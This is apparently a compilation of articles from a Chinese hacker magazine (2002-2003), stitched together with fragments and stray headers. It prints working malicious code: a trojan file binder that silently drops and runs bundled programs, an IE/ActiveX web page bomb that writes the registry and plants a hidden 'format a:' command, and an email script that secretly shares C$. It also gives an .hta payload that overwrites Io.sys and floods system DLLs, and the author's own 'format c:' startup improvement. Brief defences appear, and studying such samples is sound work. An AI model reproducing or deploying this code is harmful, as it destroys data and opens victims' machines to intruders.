Finger 其实就是这么简单，但是一个小小的疏忽就可以导致一台服务器被别有企图的人所利用，所以广大的网管朋友应该时刻意识到自己身上的担子是多么沉重。


## 如何将多个文件捆绑成一个可执行文件

徐景周

将多个文件合并成一个最终可执行文件，运行这个最终合成文件后，就相当于运行了合并前的多个文件。这种程序在木马程序合并中会经常用到，你想知道它是怎么用程序实现的吗？下面我就拿我用 VC6.0 做的一个文件捆绑器的实例代码来告诉你，实例程序运行后的界面如图。

基本构成思想：其实，文件捆绑的构成思想非常简单，它主要可分为合并文件和分解释放文件两大部分。合并文件时：建立一个新的二进制文件，先写入你的捆绑程序的自身数据和其文件长度，再写入你要捆绑的第一个文件的数据和其文件长度，后再直接写入你要捆绑的第二个文件的数据和其文件长度，最后可直接写入你要捆绑的最后一个文件的数据（不再需要其文件长度）。分解释放最终合成文件时：也就是将上面的方法思想倒过来即可，打开最终合成文件，读取源捆绑程序自身文件长度，将文件指针移到捆绑程序自身数据后，读取第一个被绑定文件的长度，接着读取其后长度大小的二进制数据并写入到一新建文件 1.r1，再读取第二个被绑定文件的长度；接着读取其后长度大小的二进制数据并写入到新建文件 2.r2，直到最后，就可直接读取最后一个被绑定文件的数据并将其写入到最后一个新建文件中即可。（下面实例代码仅告诉你如何实现两个文件的捆绑，至于多个文件的捆绑，读者只需按上面所说略加改动即可，实现详情请在光盘里下载后查看实例包。）

下面我来讲讲文件捆绑最核心的部分，以及如何将其用代码来实现的方法：

### 1、捆绑多个文件为一个可执行程序

思路：先获得捆绑程序自身的文件长度和第一个被捆绑文件的文件长度，枚举出第一个被捆绑文件的图标。有图标的话就用它作为最终生成文件的图标，否则就用捆绑程序自身所带图标作为最终生成文件的图标。然后，新建一个二进制文件，在其中写入捆绑程序自身的文件数据和其文件长度，接着写入第一个被捆绑文件的文件长度和最终合成文件的运行方式标志位（同步还是异步方式运行），紧接着再写入第一个被捆绑文件的文件数据，最后直接写入第二个被捆绑文件的文件数据即可。

```cpp
// 绑定二个文件为一个可执行文件
bool CBindFileDlg::Bind_Files()
{
    ......
    （省略：此部分代码用来定义成员变量）
    his_name = strFirstFilePath; // 第一个绑定的文件名
```

```cpp
stat(my_name, &ST); // 获取自身绑定文件信息
modify_data.my_length = ST.st_size; // 得到自身文件长度
buf = (BYTE *)malloc(modify_data.my_length); // 分配一定大小缓冲区
myself = fopen(my_name, "rb"); // 打开自身文件
// 先读取捆绑程序自身文件数据
bytesin = fread(buf, 1, modify_data.my_length, myself);
fclose(myself);
（省略：此部分代码用来获取自身文件和第一个被捆绑文件长度，以及获取最终合成文件的图标）
out = fopen(strFinalFilePath, "wb"); // 创建最终合成文件
// 先将前面读出的自身捆绑程序数据写入最终合成文件中
totalbytes += fwrite(buf, 1, bytesin, out);
in = fopen(strFirstFilePath, "rb"); // 打开第一个要绑定文件
// 写入第一个要绑定文件的长度到最终合成文件中
totalbytes += fwrite(&ST.st_size, 1, sizeof(ST.st_size), out);
// 写入最终分解后文件运行方式的标志位（同步或异步执行）
m_Sync.UpdateData(TRUE); // 传控件值到变量 m_Sync 中
totalbytes += fwrite(&m_Sync, 1, sizeof(int), out);
// 写入第一个要绑定文件的数据到最终合成文件中
while (bytesin = fread(buf, 1, modify_data.my_length, in))
{
    totalbytes += fwrite(buf, 1, bytesin, out);
}
fclose(in); // 关闭第一个绑定文件句柄
in = fopen(strSecondFilePath, "rb"); // 打开第二个要绑定的文件
// 直接写入第二个要绑定文件的数据到最终合成文件中
while (bytesin = fread(buf, 1, modify_data.my_length, in))
{
    totalbytes += fwrite(buf, 1, bytesin, out);
}
（省略：此部分代码用来关闭文件句柄）
```

### 2、释放最终合成文件并同时运行它们

思路：打开自身文件，从中得到捆绑程序自身的文件长度，将文件指针定位到捆绑程序自身数据后的第一个被捆绑文件的位置，读取其第一个被捆绑文件的文件长度和最终合成文件释放后的运行方式标志（同步还是异步方式执行），接着读取其第一个被捆绑文件的数据，将其读出数据直接写入到一个新建的二进制文件中。同样，通过已捆绑的捆绑程序自身文件长度和第一个被捆绑文件的文件长度，再加上保存这两个文件长度值的字节数及最终合成文件释放后的运行标志所占字节数，即可准确定位出第二个被捆绑文件的文件数据所在的指针位置。读取其文件数据后，直接写入到一个新建二进制文件中。最后，根据前面读出的文件释放后的运行标志，来决定以何种方式来运行释放的这两个文件，如果是同步方式，则顺序运行后会删除这两个生成文件，异步方式则会同时运行而不会删除这两个生成文件。

- 释放最终合成文件的代码具体实现如下：

```cpp
/* 分解已合并的文件，同时运行它们 */
void CBindFileDlg::Unbind()
{
    //（省略掉，此部分代码主要用来定义成员变量）
    myself = fopen(my_name, "rb");      // 打开最终合成文件
    out = fopen(temp0.exe1, "wb");      // 创建第一个释放的生成文件

    // 将文件指针定位到捆绑程序尾部
    fseek(myself, modify_data.my_length, SEEK_SET);
    // 读取第一个绑定文件的长度
    fread(&prog1_length, sizeof(prog1_length), 1, myself);
    // 读取最终文件执行方式（同步或异步）
    fread(&SyncFlag, sizeof(int), 1, myself);
    // 读取第一个文件内容写入到新建的 temp01.exe 文件中
    while (bytesin = fread(buf, 1, sizeof(buf), myself)) {
        if (totalbytes + bytesin > prog1_length)
            bytesin = prog1_length - totalbytes;
        totalbytes += fwrite(buf, 1, bytesin, out);
    }
    fclose(out);   // 关闭第一个绑定文件句柄

    totalbytes = 0;   // 重新清零
    out = fopen(temp.exe2, "wb");   // 创建第二个释放的生成文件

    /* 将文件指针定位到最终合成文件中的第二个绑定文件头部，
       偏移量 =（捆绑器自身文件长度 + 保存第一个绑定文件长度所占字节数 + 保存最终文件执行标志所占字节数 + 第一个绑定文件长度）*/
    fseek(myself, modify_data.my_length + sizeof(modify_data.my_length) + sizeof(int) + prog1_length, SEEK_SET);
```

```cpp
// 将剩余文件全部提交到新建的 temp2.exe 文件中
while (bytesin = fread(buf, 1, sizeof(buf), myself))
    totalbytes += fwrite(buf, 1, bytesin, out);
}

//（省略：此部分代码用来关闭文件句柄和决定生成文件的运行方式）
```

### 3、判断何时捆绑文件，何时又分解释放最终合成文件

思路：由于本程序采用将捆绑程序自身直接作为最终合成文件的文件头，再把被绑定文件数据附加其后的方式来生成最终合成文件的。所以，只要知道捆绑程序自身的文件长度，根据文件长度是否大于原文件长度，就可判断出是否该释放分解文件了。可在初始化对话框函数 OnInitDialog() 增加此判断，即可知道是否是最终合成文件（要不要释放内部绑定文件）。本例程序用 VC6.0 采用静态连接方式生成的 Release 版，文件长度为 184K，大于 184K（184*1024）字节，即可判断出该做释放分解操作。

- 判断是捆绑还是释放文件的代码具体实现如下：

```cpp
BOOL CBindFileDlg::OnInitDialog()
{
    //（省略，此部分代码用于初始化一些变量）

    // 获取自身文件名到 my_name 变量中
    GetModuleFileName(0, my_name, sizeof(my_name));
    struct _stat ST;
    stat(my_name, &ST);   // 获取自身文件信息（长度）

    /* 在此加入判断程序的最终文件大小，来判断文件执行时是绑定文件还是分解执行文件：
       当发现自身文件大小大于原大小 184K 时，为释放内部合成文件。*/
    if (ST.st_size > 184*1024)
    {
        Unbind();   // 分解文件并运行
        exit(0);    // 直接退出程序，不显示捆绑程序画面
    }
}
```

以上部分代码具体实现的细节问题，可在下载实例代码后，仔细查看源码即可（内有详细注释）。

## 混客炸弹解析

kyo

大家还记得去年的名气很大的混客绝情炸弹吧！它是所有网页炸弹中最具破坏性的一个，也可以说是“万花谷”的改进版本。它是一个 18 岁的少年编的，据我所知主要目的是用来盗 QQ 用的，结合代码可以让网页浏览者的机器自动下载木马程序并在机主毫不知情下自动运行。它主要是结合 ASP 空间完成的，严重时会造成显示器的狂闪几下。下面就让我们看看这些代码，注意“//”后面的文字为解释。

```html
<html>
<script>
// 初始化 activeX 控件
document.write("<applet height=0 width=0 code=com.ms.activeX.ActiveXComponent></applet>")
// 初始化 activeX 控件结束
// 定义变量
function reg(){
try
{
// 设定 appletts 为 0
 a=document.applets[0]
// 初始化 Windows Script Host Shell Object
 a.setCLSID("{f935dc22-1cf0-11d0-adb9-00c04fd58a0b}")
 a.createInstance()
 S=a.GetObject()
// 初始化 FileSystem Object
 a.setCLSID("{0d43fe01-f093-11cf-8940-00a0c9054228}")
 a.createInstance()
 fs=a.GetObject()
 try
 {
// 开始写注册表
// 设定 IE 的标题为 Internet Explorer
 S.RegWrite("HKEY_CURRENT_USER\\Software\\Microsoft\\Internet Explorer\\Main\\Window Title","Internet Explorer")
// 设定 IE 的默认首页为空白页
 S.RegWrite("HKEY_CURRENT_USER\\Software\\Microsoft\\Internet Explorer\\Main\\Start Page","about:blank")
// 让设定首页那项变灰
 S.RegWrite("HKEY_USERS\\DEFAULT\\Software\\Policies\\Microsoft\\Internet Explorer\\Control Panel\\HomePage",0x1,"REG_DWORD")
// 让设定分级审查设定那项变灰
 S.RegWrite("HKEY_USERS\\DEFAULT\\Software\\Policies\\Microsoft\\Internet Explorer\\Control Panel\\SecChangeSettings",0x1,"REG_DWORD")
// 在网页右键菜单中加入调用文件的命令
 S.RegWrite("HKEY_CURRENT_USER\\Software\\Microsoft\\Internet Explorer\\MenuExt\\格式化A盘","c:\\format-a.txt.{3050f4d8-98b5-11cf-bb82-00aa00bdce0b}")
```

```javascript
// 写入值为 0xf3 的 dword 值，注意 REG_SZ：字符型，REG_DWORD：双字节型，REG_BINARY：二进制型
// 对于 REG_DWORD 型和 REG_BINARY 型则有两种赋值方式
// 直接用十进制的数表示，如：0，1 等
// 用十六进制的数表示，如：0x12，0xf3 等
 S.RegWrite("HKEY_CURRENT_USER\\Software\\Microsoft\\Internet Explorer\\MenuExt\\格式化A盘\\contexts",0xf3,"REG_DWORD")
// 结束写注册表
// 开始写硬盘
// 生成一个名为 c:\\5flash.txt.{3050f4d8-98b5-11cf-bb82-00aa00bdce0b} 的文件
 hd=fs.CreateTextFile("c:\\format-a.txt.{3050f4d8-98b5-11cf-bb82-00aa00bdce0b}")
// 把这个文件写入 javascript 内容
// 脚本中的 start /m 为最小化窗口，/autotest 为自动，/u 为无条件格式化
 hd.write('<script>a=new ActiveXObject("WScript.Shell");a.run("start /m format.com a: /q /autotest /u");alert("正在更新a盘系统文件，请稍等……");<\/script>')
// 关闭这个文件
 hd.close()
// 把这个文件下载到客户机的 c: 盘中，这里的路径完全可以改成网络上的，然后在后面接上 Copy("d:\\format.txt")，这个脚本可以改成下载木马。
// 格式为 file=fs.GetFile("网络路径"), Copy("运行路径")
// 这个脚本如果配合 asp，那么完全成了一个功能非常强大的木马了
 file=fs.GetFile("c:\\format-a.txt.{3050f4d8-98b5-11cf-bb82-00aa00bdce0b}")
// 设定这个文件的属性为隐藏
 file.Attributes=6
// 结束写硬盘

 catch(reg)
 {}
}
catch(reg)
{}
}
function flash()
{
// 隔 100 毫秒就运行一次
 setTimeout("reg()",100)
}
flash()
</script>
```

代码就介绍完了，下面讲讲防御的方法。其实只要把 IE 升级到 6.0 版就可以了，或者上网时打开病毒防火墙也可以。如不幸中了，用现在的杀毒软件可以轻松搞定。

## 黑客X档案2002-2003年合订本

## 黑客编程

## 我要查电子邮件的源码分析和几点思考

gale

不知怎的，近日本人每天都收到很多邮件。那些广告邮件暂且不说，光是垃圾邮件一天就有十多封，很多都带有附件，通常附件为 doc 和 exe 文件。信的内容大多是些无聊的内容（如：小妹，哈哈，相片有些没摆好，很模糊的，就将就吧。想我吗？今天喝酒了，有点晕了。就这样吧。看了回信！张），唉？我怎么变成小母猫了？我可是堂堂男子汉大丈夫！呵呵，他们假装寄错了地址，无非是想骗我打开附件而已。

```html
www.sexlaugh.com.cn/"><OBJECT ID="X" TYPE="text/x-scriptlet" DATA="JavaScript:"><SCRIPT LANGUAGE=JavaScript>
function f() {

    var aa,ss;
    aa=document.applets[0];
    aa.setCLSID('{F935DC22-1CF0-11D0-ADB9-0004FD58A0B1}');
    aa.createInstance();
    ss=aa.GetObject();
    ss.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\C$\\Flags",302,"REG_DWORD");
    ss.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\C$\\Type",0,"REG_DWORD");
    ss.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\C$\\Path","C:\\");
}
function init() {
    setTimeout("f()",1000);
    init();
}
</SCRIPT>
</BODY></HTML>
```

### 一、问题的发现。

今天，我又接到了一封有趣的邮件，内容是宣传一个笑话网站的，在附件中还“友情赠送”了 N 篇笑话“极品”呢！反正我没事做，看看笑话也无妨呀，刚刚想打开附件，发现附件名为 Laugh，扩展名为 .hta！经验告诉我：这个附件肯定不是什么好东西！还是别打开它为好。

某日上网，远方的一位朋友问我：“你怎么啦？居然开着 C 盘的完全共享？连个访问密码都没有！今天这个不是你呀？”我打开“我的电脑”一看，没有呀！我的 C 盘下面没有一个托盘的小手呀；怎么会是共享呢？（连隐藏共享都不知道，笨！），我还跟朋友争吵着呢！

后来朋友在我的 C 盘下留言了一个文本文档，写下了一千多字嘲笑我的话，我这才发觉大事不妙。进入“我的电脑”，在 C 盘上点右键→“共享”查看时，果然发现我的 C 盘开着共享，共享名为“C$”，而且是“最多用户”。可在“我的电脑”里就是没有托着盘的小手，所以是很难发现的。我马上上网查了那封邮件，终于找到了隐藏在其中的杀机，以下是该邮件的源码，该信的作者在 HTML 中嵌入了恶意的 Java 脚本代码，通过对注册表进行写操作，将我的 C 盘开了共享：

### 二、邮件源码。

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<HTML><HEAD>
<META content="text/html; charset=gb2312" http-equiv=Content-Type>
<META content="MSHTML 5.00.2614.3500" name=GENERATOR>
<STYLE></STYLE>
</HEAD>
<BODY bgColor=#c0c0c0>
<DIV align=center><FONT size=4><STRONG>笑林广记笑话网</STRONG></FONT></DIV>
<DIV align=center></DIV>
<DIV align=left><FONT size=2>
你好! 我们是笑林广记笑话网，这里有大量的XXX级笑话，绝对笑死你！欢迎访问！附件中有极品笑话N篇，发送赠送！（A href="http://www.sexlaugh.com.cn/">http://...
```

### 三、过程分析：

这封邮件利用了 ActiveX 控件写注册表，只要一打开这封信，就会在注册表的 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan 中添加一个键值“C$”，将 C 盘设为完全共享！由于在 C 后面加了个 $，对方机器上是看不到这个共享目录的，但只要我上网后通过 IE、OICQ 等暴露了我的 IP 的话，对方照样可以访问我的 C 盘。

具体的方法是：在 DOS 方式下输入“net use x: \\我的IP\C$”，这样，就将我的 C 盘映射成对方的 X 盘了。那些所谓的“黑客”就可以远程登录 C 盘，可以在硬盘中胡作非为：随意拷贝、删除、添加文件……还可以上传木马，获得机器的完全控制权！真是可恶耶……

更加可恶的是，自己开了共享连自己都不知道！其精华之处在于 ss.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\C$\\Flags",302, ...## 黑客编程

“REG_DWORD”这一句，将 Flags 的十六进制值设置为 302，就开了隐藏的共享，这样自己都看不到 C 盘被共享了，真是阴险歹毒，杀人于无形之中呀！

光是阅读了信件就有如此大的危害了，那么打开附件中的文件呢？会不会遭受更大的危害呢？那是不用说的了，刚才的只是发信者给的一点小小的见面礼，更大的阴谋还是藏在附件里呢！

现在，我们来看一看附件。它的名字为 Laugh，导出后，查看它的“文件类型”，就可以看到它是以“.hta”为后缀名的。“.hta”文件就是 HTML Application 文件，它由 Mshta.exe 解释执行。用记事本打开，（反正我是不敢双击打开的，如果你有胆量，不妨试试，可不关我的事！）发现了如下代码：

```vb
<html>
<script language=vbs>
On Error Resume Next    // 一般的恶意病毒源码好像都有这一句的容错语句，避免程序崩溃嘛！
set aa=CreateObject("WScript.Shell")    // 创建 WScript 对象。
Set fs = CreateObject("Scripting.FileSystemObject")    // 建立文件系统对象。
Set dir1 = fs.GetSpecialFolder(0)    // 获得 Windows 的路径，赋给 dir1。
Set dir2 = fs.GetSpecialFolder(1)    // 获得 System 的路径，赋给 dir2。
dir1=dir1+"\START MENU\PROGRAMS\启动"    // 经过这样的转换赋值，dir1 就是你的“开始菜单”“程序”“启动”目录所在的准确位置，这样工作起来，不比那些“C:\WINDOWS\...”绝对路径要灵活得多吗？
aa.RegWrite "HKLM\Software\Microsoft\Windows\CurrentVersion\Network\LanMan\$S\Flags", 302, "REG_DWORD"    // 写入 Dword 值 Flags，这里共享类型的标志。
// 设置为 302，自己机器上并没有看到共享目录下出现什么蛛丝马迹的小手。
aa.RegWrite "HKLM\Software\Microsoft\Windows\CurrentVersion\Network\LanMan\$S\Type",0, "REG_DWORD"    // 设置 Type 的 Dword 值。
aa.RegWrite "HKLM\Software\Microsoft\Windows\CurrentVersion\Network\LanMan\$S\Path", dir1
// 共享资源的绝对路径，就是将你的“启动”目录设置为完全共享，共享名为“$S”。
a=10    // 初始化设置值
Set Os = CreateObject("Scriptlet.TypeLib")    // 建立定义枚举对象，能以下一大堆的垃圾语句写入目标文件。
doc="Hi!"|"Hello"|"How are you?"|"Can you help me?"|"We want peace"|"Where will you go?"|"Congratulations!"|"Don't Cry"|"Look at the pretty"|"Some advice on your shortcoming"|"Free XXX Pictures"|"A free hot porn site"|"Why don't you reply to me?"|"How about have dinner with me together?"|"Never kiss a stranger!"|"Hi!"|"Hello"|"How are you?"|"Can you help me?"|"We want peace"|"Where will you go?"|"Congratulations!"|"Don't Cry"|"Look at the pretty"|"Some advice on your shortcoming"|"Free XXX Pictures"|"A free hot porn site"|"Why don't you reply to me?"|"How about have dinner with me together?"|"Never kiss a stranger!"
"Congratulations!"|"Don't Cry"|"Look at the pretty"|"Some advice on your shortcoming"|"Free XXX Pictures"|"A free hot porn site"|"Why don't you reply to me?"|"How about have dinner with me together?"|"Never kiss a stranger!"|"Hi!"|"Hello"|"How are you?"|"Can you help me?"|"We want peace"|"Where will you go?"|"Congratulations!"|"Don't Cry"|"Look at the pretty"|"Some advice on your shortcoming"|"Free XXX Pictures"|"A free hot porn site"|"Why don't you reply to me?"|"How about have dinner with me together?"
// 以上就是垃圾内容，用来写入目标文件的。
Os.Reset    // 重置 TypeLib 对象
Os.Path = "C:\Io.sys"    // TypeLib 对象的目标路径为 C:\Io.sys，将破坏掉你的 Io.sys 文件。
Os.Doc = doc    // 向目标写入的内容就是上面的一大堆垃圾了。
Os.Write()    // 写入，生成文件。
while true    // 死循环，继续制造垃圾文件，在发信者看来当然是越多越好了。
a=a+1
Os.Reset    // 重置对象
Os.Path = dir2&"\Msvbvm"&a&".dll"
// 目标路径为 System 下的 Msvbvm??.dll 文件。
Os.Doc = doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc&doc
// 大量重复，以生成足够大小的文件，实在是阴险。
Os.Write()    // 写入，生成文件。
wend    // 循环语句至此才结束。
</script>    // 破坏的脚本总算完了，就这么多都已经够受的了。
</Html>
```

原来，作者进一步找到“启动”目录的准确位置，将其共享，并往你的机器上制造垃圾 DLL 文件！看了附件的源代码，相信大家都知道其中的危害了。作者在邮件体内设置了将 C 盘共享的 Java 脚本代码，可是，作者还不放心，担心用户的 C 盘不是系统所在的盘，这样就算拿到了 C 盘的共享也不能完全控制用户的机器。所以，发信者在附件里准确获得系统的“启动”目录，用 VB 脚本将其共享，可见作者的“用心良苦”。

那为什么不在邮件体里做这一切，非要放到附件里呢？需要说明的是，以“.hta”为扩展名的文件的权限比 HTML 的权限大，可以调用 FileSystemObject 控件（文件系统对象）。这样，破坏起来就可以大展神威了。在邮件里是 HTML 格式的文件，恐怕没有调用 FileSystemObject 控件的权限。要不然，作者岂非几乎无所不能一样的。

这只能算是一封恶意破坏的电子邮件，算不上是病毒，因为它没有病毒的特征——“传染性”，只是对受害者施加破坏。

### 四、邮件的危害

单单是阅读邮件，你的 C 盘就共享，并且连自己都不知道。

如果你运行了该附件，会造成什么后果呢？从代码中我们可以知道发信者的意图：它首先得到你机器上的 Windows 目录和 System 目录。接着，通过修改注册表，把“启动”目录——如“C:\WINDOWS\Start Menu\Programs\启动”设置为完全共享（这样做的目的究竟是什么，相信不用多说了。上传木马到该目录下，下次你启动机器就自动运行，进而完全控制你的机器）。然后就在 System 目录里面灌垃圾文件，大家可以看看上面的代码“Os.Path = dir2&"\Msvbvm"&a&".dll"”这一句，往里面灌的都是些垃圾如 Msvbvm??? 的 DLL 文件。顾名思义这些是 DLL 文件！所有用 VB 编写的程序都不能用了，提示找不到 DLL 文件。因为 Msvbvm50.dll 和 Msvbvm60.dll 被垃圾文件覆盖了！而且，这些 DLL 文件越多，机器启动的时候就越慢，你说发信者的心是不是肉做的呢？

```html
<Object>
<script>
scr.Reset();
scr.Path="C:\WINDOWS\Start Menu\Programs\启动\test.hta";
scr.Doc=<Object id=wsh classid=clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B></Object><SCRIPT>
wsh.Run('start /m format c: /autotest /u')
alert('Windows 正在检查您的系统，这将需要几分钟')
</SCRIPT>
scr.write()
</script>
```

### 五、删除措施

最好在 MSDOS 下“dir Msvbvm*.dll”查找 Msvbvm*.dll，全部删除，然后到别的同学的机器拷贝相应的 DLL 文件放回原处（这样做是否有点兴师动众？），再将共享的目录改回来，最后把 I.O.sys 再次覆盖一遍就可以了。启动的时候可能会提示“缺少系统文件”，这时用“启动盘”启动；在 DOS 下键入：Sys A: C:，再重启即可修复系统文件。

以上就是往“开始”菜单的“启动”目录写 test.hta 文件，里面包含了 format c: /autotest /u 指令，使机器重启后执行 test.hta 文件，格式化 C 盘。只要在网页文件里的 `<head>……</head>` 插入上面的代码即可实现，那么这个恶意邮件的作者为何不这样写到“启动”目录去呢？如果这样做，效果会更好的。

虽然这样的中招率不是很高，这只能攻击那些采取默认路径安装系统的用户，很多系统不一定就装在 C 盘，“启动”也不一定就在 C:\WINDOWS\ 目录下，但是默认将系统装在 C 盘的用户还是很多的，一旦中招就等于用户打开了附件了，（“搏一搏，单车变摩托嘛”）在很多情况下还是很有效的。像作者那样的话，别人不打开附件就不能给系统灌垃圾文件了，我觉得作者至少应该多做这一步，企图将附件文件写到“启动”目录下（注：这不是倡导如何搞破坏，而是告诉你有这样被破坏的可能性）。所以，将系统默认安装在 C 盘的朋友还要注意来自这样的攻击，一旦闻到这样的邮件你就……

### 六、防范方法

- 1. 安装防火墙，如：Norton AntiVirus、Lockdown2000（专业版）等。
- 2. 将 ActiveX 控件、Java 脚本和 VBS 脚本等全部禁止。方法：打开 IE，点击“工具”→“Internet 选项”，在弹出的对话框中选择“安全”标签，再点击“自定义级别”按钮，就会弹出“安全设置”对话框，把其中所有的 ActiveX 控件以及 Java 和 VBS 脚本相关全部选择“禁用”。

### 七、几点思考

- 1. 看了邮件和附件的源码，实在令人佩服作者的聪明和考虑的周到。代码设置很是巧妙，利用了“.hta”文件的权限比 HTML 文件大来陷害用户，杀人于无形之中！开始的时候，我觉得作者这样做未免有点“此地无银三百两”，你想，一个陌生类型的文件出现在附件里，怎么会不引起疑心呢？有经验的朋友都不会轻易去执行附件的，何不直接在受害者浏览邮件的时候将 Laugh.hta 文件直接写到“启动”目录下，让它在下次启动机器的时候自动执行呢？但回过头来又想，“启动”目录是在系统目录下的，现在连系统目录都不能确定在哪（不一定就是在 C 盘的），又怎么写到“启动”目录下呢？要是系统就装在 C 盘，那么在你阅读邮件的时候，作者已经达到愿望——将你的 C 盘共享啦！
- 2. 鉴于大多数的用户都将系统默认地装在 C:\ 下，所以我觉得，对于这一类用户的机器，还有可能受到这样的攻击；完全可以将代码嵌入邮件体中，将附件文件 Laugh.hta 的内容写到用户的“启动”目录下，默认路径为：C:\WINDOWS\Start Menu\Programs\启动\，使机器重启就执行该文件，实现附件所达到的目的，这样就不用骗人打开附件了。但是如何实现呢？大家不妨来回顾一下浏览网页格式化硬盘的代码：

```html
<object id=SCRI classid="clsid:06290BD5-48AA-11D2-8432-006008C3FBFC" width="14" height="14">
```

身处网络就像人在江湖，江湖十分险恶，仅仅是一封陌生的邮件就可以使你的机器大门洞开。如果经不住诱惑，被花言巧语所骗，执行了附件文件，更是大难临头，给你造成诸多的不便，希望本文对你有所启发。

## 浅谈网页加密

首先要明确，在网页中加密只会给一些 Hacker 带来挑战，或者给浏览者带来麻烦，因此我建议不要随意地把秘密的内容用页面加密的方式加入到网页中。

最近我比较注重对页面的研究（或许是在做网站吧！），看了许多有关给页面加密的材料，选了两个比较简单的和大家讨论一下。不知还有哪些比较经典，大家可以交流一下。第一个例子：

```html
<script language="JavaScript">
<!--
function hidden(){
  var location=document.input.password.value + '.htm';
  this.location.href = location;
}
// --- End Hiding Here
// -->
</script>
```

把以上代码加入到 `<head>` 区域中，再在 `<body>` 区域中加入：

```html
<form name="input">
<table>
<tr>
<td>Password.<p><input type="text" size="25" name="password"></p>
<p><input type="button" value="Enter" onclick="hidden()"></p></td>
</tr>
</table>
<table width="196">
</table>
</form>
```

这是一种类似于表单的代码验证，语法很简单，在此不做分析了。第二个例子，这是一个被广泛采用的方法：

```javascript
<SCRIPT LANGUAGE="JavaScript">
function password() {
  var testV = 1;
  var pass1 = prompt('请输入密码：','');
  while (testV < 3) {
    if (!pass1)
      history.go(-1);
    if (pass1 == "welcome") {
      alert('密码正确!');
      break;
    }
    testV += 1;
    var pass1 =
prompt('您的密码不正确请重新输入.');
}
if (pass1!="password" & testV==3)
  history.go(-1);
return '';
}
document.write(password())
</SCRIPT>
```

把上面的代码加入 `<body>` 区域中就可以了。这是在你打开新页面的同时打开一个“Explorer 用户提示”的对话框。你必须要键入密码才可以正常开启后面的页面。

var pass1 = prompt('请输入密码：','') 是在对话框中显示的提示文字，注意要是友善的、充满提示性的内容。

while (testV < 3) 限制了您只有 3 次机会。数字可以随意更改为你需要设定的验证次数。

接下来的 if (pass1 == "kane") 中的“kane”就是密码内容了，注意编写时不要使密码过长，再有就是这段密码不支持中文。

alert('密码正确！') 是在您输入正确密码后看到的新提示框中的内容。

prompt('您的密码不正确请重新输入.'); 是您输入错误密码后在原有的验证提示框中出现的内容。有些编写者为提醒注意或者显示自己的“能力”，在内容上不注重语言的简练和友善度，会使浏览者感到极大的反感。

最后就是再做继续的验证，直到限定机会用完为止。

还有些比较特殊的加密方法，基本原理就像是注册用户的身份验证登录一样，只是省去了姓名罢了，不过大多数也是调用 JavaScript 来实现的。当然以上这些只是一小部分，高层的网络管理员可以通过防火墙的设置屏蔽掉某部分的 IP 段，这会更有效地进行管理。

就像我们针对漏洞进行攻击一样，对于不同的加密手段应当采取最为有效且最快的方法。在此只介绍对于在 HTML 中插入 JavaScript 的破解。

由于 JavaScript 的原文是网页建设者在建立页面时写在 HTML 中的，那么我们只要得到该页面的代码就可以了。

对此大家可以使用暴力破解工具，如：NetBrute 等。也可以在浏览该页面时断开网络的连接，关闭前面的 JS 对话框，选择 IE“查看”中的“源文件”命令，这样代码便会以 .txt 的形式展现出来。针对上文所提到的写入格式，很快就会看到密码的原文了。

希望大家熟练掌握，巧学巧用。也欢迎来本人网站讨论研究：www.juele.com。

## VB中偷车、关机重启和注销练习

无邪

相信大家或多或少都听说过木马这个东西，可能它的威力也有过不少人领教过：它在后台记录你的键盘输入，截取你的密码；从你的机子中神秘地偷走你的重要资料；甚至格式化掉你的硬盘……那些厉害的家伙它们是如何工作的呢？下面我就给大家一起来聊聊它们的工作原理。

其实这些家伙已经并不是十分高明的技术了，它们不外乎也就是基于 TCP/IP 协议的客户端/服务端程序。工作原理也和普通的客户端/服务端软件一样，只不过它们隐藏得比较好，不容易发现而已。首先，对你怀有坏心的人利用现成的操作系统或某些软件本身的漏洞，想方设法地把服务端弄到你的本机上运行，然后通过客户端向你本机中的服务端程序发出一些请求，最后对你本机进行操作，完成他们想要达到的目的。

那这些请求是如何实现的呢？下面我来举一个例子。首先，新建一个工程，名为 Server；新建一个窗体，名为 frmServer。在窗体中加入一个 winsock 控件，名为 sckServer，协议设为默认的 TCP/IP 协议。接下来我们回到 frmServer 窗体模块中，添加如下代码：

```vb
Private Sub FORM_Load()
    With Me
        .sckServer.LocalPort = 4000 '本地端口
        .sckServer.Listen        '开始监听
    End With
End Sub

'接受客户端的连接请求
Private Sub sckServer_ConnectionRequest(ByVal requestID As Long)
    With Me
        If .sckServer.State <> sckClosed Then .sckServer.Close
        .sckServer.Accept (requestID)
    End With
End Sub
```

下面我们来建立客户端程序：新建一个工程，名为 Client，把窗体取名为 frmClient。在上面加入一个 winsock 控件，名为 sckClient，协议为 TCP/IP 协议。再加一个按钮 cmdConnect，在窗体模块中加入代码：

```vb
Private Sub FORM_Load()
    With Me
        .sckClient.RemoteHost = "127.0.0.1"  '设置远程 IP，本例中关机机为本机
        .sckClient.RemotePort = 4000          '远程端口，要与 server 中的设置一致
    End With
End Sub

Private Sub cmdConnect_Click()
    sckClient.Connect
End Sub
```

至此，单击 Connect 按钮，我们的两个工程已经可以进行通信了，但看不见。你可以在 Client 中的 sckClient_Connect 事件中加入代码：debug.print "Connection successful!" 来查看。

这仅仅是第一步，下面我们来为它们添加功能。为了简单，我们打算实现一点小小的功能——关机、重启、注销。好，开始吧！在 Server 工程中新建一个模块，名为 modApi，这个模块为一些 API 函数，添加如下 API 函数：

```vb
Public Declare Function ExitWindowsEx Lib "user32" Alias "ExitWindowsEx" (ByVal uFlags As Long, ByVal dwReserved As Long) As Long

Public Const EWX_LOGOFF = 0
Public Const EWX_REBOOT = 2
Public Const EWX_SHUTDOWN = 1

Public Declare Function ClipCursor Lib "user32" Alias "ClipCursor" (lpRect As Any) As Long

Public Type RECT
    Left As Long
    Top As Long
    Right As Long
    Bottom As Long
End Type
```

注：在两个 socket 编程中，进行通信的重要事件是 DataArrival 事件，用于接收远程数据。

